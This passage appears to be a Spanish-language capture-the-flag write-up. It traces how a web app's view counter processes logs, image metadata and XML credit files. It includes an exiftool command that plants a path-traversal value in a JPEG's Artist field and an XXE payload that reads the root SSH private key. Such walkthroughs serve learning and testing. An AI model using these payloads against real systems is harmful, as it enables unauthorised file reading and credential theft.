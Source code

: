 > En la web

![stats-web](stats_web.png){: .shadow}

También vemos que para mostrar la tabla con las vistas se lee la data de un archivo `.xml`. Esto ya es interesante y luego de un mayor análisis llegamos a la conclusión que es vulnerable a **XML External Entity (XXE)**

La explicación es la siguiente:

1. Por cada petición a la web, se guarda la data en un archivo log. (/opt/panda_search/redpanda.log)
2. Si lo registrado (log) contiene un `.jpg` se extrae el campo **URI** que es la ruta del archivo. (code\|\|ip\|\|agent\|\|**URI**)
3. Luego se extrae de su metadata el nombre del artista dueño de la imagen. (/opt/panda_search/src/main/resources/static + **URI**)
4. Esa información se usa para buscar en una ruta específica el archivo `.xml` con los datos de las vistas del artista (/credits/ + artist + \_creds.xml)
5. Por último, se procesa ese archivo `.xml` añadiendo la nueva data para luego mostrarla en la web 

Explotación:

> Nuestro objetivo es que se procese el archivo `.xml` que creemos el cuál contendrá el ataque **XXE** que nos permitirá leer archivos del sistema

Como vemos en el paso `2`, primero descargamos una imagen `.jpg` cualquiera y le ponemos el nombre `pwned.jpg` para que sea válida

Como observamos en al paso `4`, el campo **artist** es el encargado de seleccionar el archivo `.xml`, entonces podemos hacer que el campo **artist** realize **Path Traversal** ya que como observamos solo existe una concatenación y no es sanitizado

```console
❯ exiftool -Artist=../tmp/.privesc/pwned pwned.jpg
    1 image files updated
```

Ahora del paso `5`, debemos crear nuestro archivo `.xml` teniendo en cuenta que tengamos como nombre la metadata **artist** y la concatenación con \_creds.xml:

> Nombre : pwned_creds.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]> <-- Root private key!
<credits>
  <author>pwned</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>6</views>
  </image>
  <xxe>
      &xxe;
  </xxe>
  <totalviews>12</totalviews>
</credits>
```
